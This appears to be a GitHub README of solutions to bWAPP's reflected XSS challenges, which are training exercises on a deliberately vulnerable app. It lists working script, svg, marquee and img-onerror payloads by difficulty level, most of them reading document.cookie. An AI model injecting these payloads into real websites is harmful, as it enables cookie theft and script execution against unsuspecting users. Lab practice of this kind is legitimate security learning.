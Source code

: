 # XSS-BWAPP-SOLUTION
Welcome to the repository of comprehensive solutions for bWAPP's Cross-Site Scripting (XSS) challenges, meticulously curated and solved by BugBot19 (Nihar Rathod). This repository serves as a one-stop resource for anyone looking to understand and solve XSS vulnerabilities in the bWAPP (Buggy Web Application) framework.

# XSS - Reflected (GET)(LOW)
Payload- <script>alert(document.cookie)</script>(can be inserted in both parameter Firstname and lastname)

XSS - Reflected (GET)(MEDIUM) 
Payload- <svg onload=alert(document.cookie)>(Can be inserted in both the parameter Firstname and Lastname)

XSS - Reflected (GET)(High)
NYF

XSS - Reflected (POST)(Low)
Payload-<script>alert(document.cookie)</script>

XSS - Reflected (POST)(Medium)
Payload-<svg onload=alert(document.cookie)>

XSS - Reflected (POST)(High)
NYF

XSS - Reflected (JSON)(Low)
Payload - <marquee onclick=alert(document.cookie)>Click on me</marquee>

XSS - Reflected (JSON)(Medium)
Payload – NYF

XSS - Reflected (JSON)(High)
Payload – NYF

XSS - Reflected (AJAX/JSON)(Low/Medium)
Payload - <marquee onclick=alert(1)>Click!!!</marquee>

XSS - Reflected (AJAX/JSON)(High)
Payload – NYF

XSS - Reflected (AJAX/XML)(Low/Medium)
Payload - &lt;img src=&apos;#&apos; onerror=&apos;alert(document.cookie)&apos;&gt;

XSS - Reflected (AJAX/XML)(High)
Payload - <a href="javascript:x='&percnt;27-alert('BugBot19 was here')-%27';">XSS</a>


XSS - Reflected (BackButton)(Low)
Payload - ‘-alert(document.cookie)-’

XSS - Reflected (BackButton)(Medium)
Payload – javascript:alert(document.cookie)

XSS - Reflected (BackButton)(High)
Payload – Same as medium
Javascript:alert(document.cookie)

XSS - Reflected (CustomHeader)(Low)
Payload- bWAPP:<script>alert(document.cookie)</script>

XSS - Reflected (CustomHeader)(Medium)
Payload – bWAPP:<marquee onclick=alert(document.cookie)>click to win 1$</marquee>
